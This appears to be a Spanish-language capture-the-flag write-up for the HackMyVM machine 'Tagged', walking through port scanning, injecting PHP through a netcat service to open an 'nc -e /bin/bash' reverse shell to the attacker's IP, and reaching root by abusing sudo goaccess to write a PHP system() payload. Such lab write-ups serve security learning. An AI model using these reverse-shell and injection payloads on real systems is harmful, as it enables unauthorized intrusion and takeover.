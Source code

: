 ```yaml
---
layout: post
title: Tagged - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/tagged/tagged.png#center)

## Reconocimiento

Como es de esperar, lo primero es realizar una enumeración de los puertos abiertos en la máquina.

```
$ sudo nmap 192.168.1.18 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-26 09:15 UTC
Nmap scan report for 192.168.1.18
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7746/tcp open  unknown

```

**Nota:** El proceso ejecutandose en el puerto **7746** puede dejar de funcionar por culpa de nmap. Para solucionar esto basta con reiniciar la máquina.

### 7746

Probando a conectarme con "netcat" en el puerto 7746, encuentro que nos pide una entrada de usuario. Aquí podemos escribir lo que queramos y nos daremos cuenta que se escribe en "http://tagged.hmv/index.php".

```
$ nc 192.168.1.19 7746
>test
>
```

```
$ curl http://192.168.1.19/index.php
<h1>TAGZ</h1>
<pre>test</pre>
```

Sabiendo esto, puedo conseguir una "reverse shell" en el servidor.

## Explotación

Me vuelvo a conectar al puerto 7746 pero ahora introduzco la siguiente entrada.

```
$ nc 192.168.1.19 7746
><?php system('nc -e /bin/bash 192.168.1.79 1234');?>
>
```

Una vez hecho esto, creo un "listener" en el puerto 1234 y ejecuto el curl

```
$ curl http://192.168.1.19/index.php
```

Nada mas ejecutarlo compruebo que se ha realizado la conexión y tengo shell como www-data.

```
$  nc -lvnp 1234                     
Connection from 192.168.1.19:59908
whoami
www-data
```

## Escalado de privilegios

Al conectarme como www-data veo un archivo "magiccode.go" en /var/www/html. Este parece ser el código fuente del programa que se está ejecutando en el puerto 7746. Lo más interesante es que si la entrada del usuario es "Deva" realiza una "reverse shell" a sí mismo en el puerto 7777.

```
[...]
func main() {
        ln, _ := net.Listen("tcp", ":7746")
        for {
                conn, _ := ln.Accept()
                go receiveData(conn)
                go sendData(conn, "")
        }
}
[...]
OMG := "Deva"
    if message == OMG {
        cmd := exec.Command("nc","-e","/bin/bash","127.0.0.1","7777")
        _ = cmd.Run()
        }
[...]
```

Conociendo esto, creo un "listener" como www-data en el puerto 7777 del servidor y desde mi máquina me vuelvo a conectar al puerto 7746 para enviar "Deva".

```
nc 192.168.1.19 7746
>Deva
>
```

Nada más enviarlo, obtengo una shell como Shyla.

```
www-data@tagged:~/html$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 52828
whoami
shyla
```

Ahora siendo Shyla, compruebo que puede ejecutar varios comandos como distintos usuarios (Uma y Root).

```
shyla@tagged:~$ sudo -l
Matching Defaults entries for shyla on tagged:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User shyla may run the following commands on tagged:
    (uma) NOPASSWD: /usr/bin/goaccess
    (ALL) NOPASSWD: /usr/bin/php /var/www/html/report.php
```

[Goaccess](https://goaccess.io/) -> "GoAccess fue diseñado para ser un analizador de registros rápido basado en terminales."

El objetivo es llegar a ser root, lo cual se puede obtener ejecutando php como root robre report.php. Este archivo le pertenece a Uma, por lo que para resolver la máquina es necesario modificar el archivo report.php mediante goaccess y luego ejecutarlo como root. Pues manos a la obra.

- Lo primero es crear un archivo log que goaccess pueda leer
- Despues, utilizo el parametro "--html-report-title" para modificar el título y pasarle el comando bash.
- Al ejecutarlo, obtengo una shell como root.

```
shyla@tagged:~$ touch a.log
shyla@tagged:~$ sudo -u uma goaccess -f a.log -o /var/www/html/report.html --html-report-title="<?php system('bash');?>"
shyla@tagged:~$ sudo /usr/bin/php /var/www/html/report.php
root@tagged:/home/shyla# id
uid=0(root) gid=0(root) grupos=0(root)
root@tagged:/home/shyla# :)

```

Muchas gracias  **Sml** por esta máquina.
